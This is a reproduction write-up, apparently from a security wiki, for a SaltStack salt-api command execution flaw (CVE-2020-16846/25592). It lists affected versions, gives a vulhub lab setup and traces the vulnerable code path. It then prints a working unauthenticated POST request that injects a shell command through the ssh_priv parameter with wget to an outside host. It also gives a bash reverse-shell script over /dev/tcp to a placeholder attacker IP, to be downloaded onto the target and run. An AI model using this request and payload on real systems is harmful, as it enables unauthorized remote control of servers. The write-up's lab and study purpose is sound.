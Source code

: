 # SaltStack Unauthorized Access Command Execution Vulnerability CVE-2020-16846 25592

## Vulnerability Description

On November 4, 2020, SaltStack officially released a security update announcement, in which CVE-2020-16846 and CVE-2020-25592 are used in combination to execute arbitrary commands through the salt-api interface without authorization. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">SaltStack Version 3002</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">SaltStack Version 3001.1, 3001.2</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">SaltStack Version 3000.3, 3000.4</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">SaltStack Version 2019.2.5, 2019.2.6</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">SaltStack Version 2018.3.5</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">SaltStack Version 2017.7.4, 2017.7.8</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">SaltStack Version 2016.11.3, 2016.11.6,2016.11.10</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">SaltStack Version 2016.3.4, 2016.3.6,2016.3.8</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">SaltStack Version 2015.8.10, 2015.8.13</span>

## Environment construction

```shell
git clone https://github.com/vulhub/vulhub.git
cd vulhub/saltstack/CVE-2020-16846
docker-compose up -d
```

## Vulnerability reappears

The salt-api REST interface uses the cherrypy framework by default. From the implementation of the run interface, it can be seen that the methods in the NetapiClient class are dynamically called through the client parameters.

The following convention is adopted for specifying the code location in the article `FileLocation:Classname.method()`

`salt/netapi/init.py:NetapiClient.run()`

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220311165558077.png)



The low parameter is an external incoming parameter, and the salt.utils.args.format_call method assigns the parameter to `kwargs. 



`salt/netapi/init.py:NetapiClient.ssh()`



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220311165551777.png)



Follow up, the path is as follows:

`salt/netapi/init.py:NetapiClient.ssh()⇒salt/client/ssh/client.py:SSHClient.cmd_sync()⇒salt/client/ssh/client.py:SSHClient._prep_ssh()`

`salt/client/ssh/client.py:SSHClient._prep_ssh()`



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220311165554779.png)



This method updates the value of the kwargs external controllable parameter opts variable, which can be understood as the environment variable of the SaltStack system, and uses this variable to initialize salt.client.ssh.SSH.

`salt/client/ssh/init.py:SSH.__init__()`

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220311165552768.png)



The value of priv is obtained from the opts variable and the `salt.client.ssh.shell.gen_key()` method is called

`salt/client/ssh/shell.py:gen_key()`

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220311165551783.png)

```shell
POST /run HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/x-yaml
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 109

token=12312&client=ssh&tgt=*&fun=a&roster=whip1ash&ssh_priv=aaa|wget https://xxx.dnslog.cn
```



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220311165554420.png)



The method to rebound shell, write the bash file first, the content is a rebound shell statement, and use wget to download it to the target.

```bash
#!/bin/sh
bash -c 'exec bash -i &>/dev/tcp/xxx.xxx.xxx.xxx/9999 <&1'
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220311165553216.png)

Listen to the port, use `/bin/bash` to run the file rebound shell

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220311165552939.png)

## Reference article

<a-alert type="success" message="https://mp.weixin.qq.com/s/R8qw_lWizGyeJS0jOcYXag" description="" showIcon>
</a-alert>
<br/>